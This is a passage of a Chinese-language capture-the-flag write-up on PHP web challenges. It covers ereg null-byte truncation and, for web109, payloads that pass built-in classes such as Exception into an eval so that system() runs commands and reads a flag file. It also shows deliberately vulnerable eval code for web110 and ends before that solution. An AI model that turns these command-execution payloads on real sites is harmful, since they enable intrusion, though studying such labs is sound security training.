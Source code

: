 其实这个题就考了一个知识点

ereg函数可以用%00截断

payload

```
?c=a%00778
```



### web109

```
highlight_file(__FILE__);
error_reporting(0);
if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/[a-zA-Z]+/', $v1) && preg_match('/[a-zA-Z]+/', $v2)){
            eval("echo new $v1($v2());");
    }

} 
```

正则匹配要求v1和v2要包含字母。题目中eval里的语句，和之前web101有点相似。
初始化$v1，v1是个类，$v2()是参数。

这道题用到了魔术方法__toString()，不少php的内置类里都包含有这个方法，如Reflectionclass、Exception、Error
`__toString()`：当一个对象被当作字符串对待的时候，会触发这个魔术方法，格式化输出这个对象所包含的数据。

> PHP5.2.0之前，__toString() 方法只在使用 echo 或 print 时才生效。PHP5.2.0之后，可以在任何字符串环境生效

所以echo使得`$v1`类触发`__toString()`，传递的参数v2会被输出。

**payload**

```
?v1=CachingIterator&v2=system(ls)
?v1=Exception&v2=system('cat fl36dg.txt') 
```



### web110

```
if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/\~|\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]/', $v1)){
            die("error v1");
    }
    if(preg_match('/\~|\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]/', $v2)){
            die("error v2");
    }

    eval("echo new $v1($v2());");

} 
```
